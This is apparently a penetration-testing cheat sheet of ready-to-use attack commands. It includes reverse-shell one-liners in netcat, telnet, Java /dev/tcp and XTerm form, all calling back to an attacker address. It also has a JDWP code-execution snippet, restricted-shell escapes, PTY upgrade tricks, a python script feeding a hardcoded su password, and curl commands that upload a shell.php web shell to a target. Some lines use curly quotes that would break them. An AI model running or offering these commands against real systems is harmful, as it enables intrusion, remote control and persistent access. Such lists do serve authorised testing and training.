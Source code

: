 #### Netcat without -e #1
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

#### Netcat without -e #2
```bash
nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### Java
```bash
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### XTerm
```bash
xterm -display 10.0.0.1:1
```

### JDWP RCE
```bash
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### Working with Restricted Shells
```bash
# rare cases
ssh bill@localhost ls -l /tmp
```

```bash
nice /bin/bash
```
### Interactive TTY Shells
```bash
/usr/bin/expect sh
```

```bash
python -c ‘import pty; pty.spawn(“/bin/sh”)’
# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```
### Uploading/POSTing Files Through WWW Upload Forms
```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```
